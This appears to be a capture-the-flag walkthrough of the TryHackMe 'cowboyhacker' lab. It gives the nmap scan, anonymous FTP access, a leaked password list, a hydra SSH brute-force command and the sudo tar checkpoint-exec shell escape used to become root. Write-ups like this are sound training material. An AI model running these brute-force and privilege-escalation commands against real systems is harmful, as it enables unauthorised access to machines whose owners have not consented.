










# WRITE-UP COWBOYHACKER

[Click here to access the room](https://tryhackme.com/room/cowboyhacker#)
---

## QUESTION 01: Find open ports on the machine

> Well, just do a simple scan. You can use any port scan tool you prefer. I gonna use nmap.

> I like save nmap scan in other file, but if you don't like just run `nmap -A [target]`

**STEP 01:** Run `nmap -A [target] > file.txt`

In my case:
  `nmap -A 10.10.81.241 > scan.txt`

Result:

  

  * Nice, three ports are open.
    * 21 `ftp`
    * 22 `ssh`
    * 80 `http`

  * The FTP have Anonymous login allowed, interesting!

  * And we have a website running on port 80 with Apache 2.4.18

   

  

  Always check the source code, it may have sensitive information commented out.

  

  But in this case, i found nothing relevant. Only possible usernames to log into ssh.

----

  ## QUESTION 02: Who wrote the task list

  > Well, reading the short excerpt from the website I noticed that there is a character named Ein. It didn't work :(

  But remember, Nmap showed us that there is an FTP server with Anonymous login enabled. So let's see what we found.

  **STEP 01:** log as anonymous on ftp server with this command: `ftp [target]` and type `anonymous` as username.

  In my case:

  

  **STEP 02:** We found two files just running `ls`. Now type `get [file]` to download to your local machine.

  Content of `task.txt`:

  ~~~
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ~~~

> Oh, maybe lin wrote the task list

Content of `locks.txt`:

~~~
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

> Strange. Looks like a file with possible passwords.

v

-----

## QUESTION 03: What service can you bruteforce with the text file found?

## QUESTION 04: What is the users password?

Now we have an username, password list and a ssh service. Next step is bruteforce ssh with these credentials. I will use `hydra` but you can use another tool you prefer.

**STEP 01:** Bruteforce ssh with hydra using this command: `hydra -l lin -P locks.txt ssh://target`

 In my case:

 `hydra -l lin -P locks.txt ssh://10.10.81.241`

> We found!

**With the information obtained so far, you are already able to answer question 03 and question 04.**

-----

## QUESTION 05: user.txt

Let's login ssh with the credentials.

> Boom! We are on the server

Running `ls -la` we found the flag user.txt
> Pretty easy flag

**With the information obtained so far, you are already able to answer question 05.**

----

## QUESTION 06: root.txt

Now we have to escalate privilege and get the last flag root.txt.

After a long time looking through the files and searching for possible users, I thought I would use the linpeas script to automate my process (You can download it [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)), it is a very powerful script.

But I had forgotten to see what our current user can do. So i run `sudo -l`

We can use **tar**

A fast search on Google and i found on [GTFFobins site](https://gtfobins.github.io/gtfobins/tar/) this code:

~~~
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Now we are root. Just take the flag in `/root/root.txt`

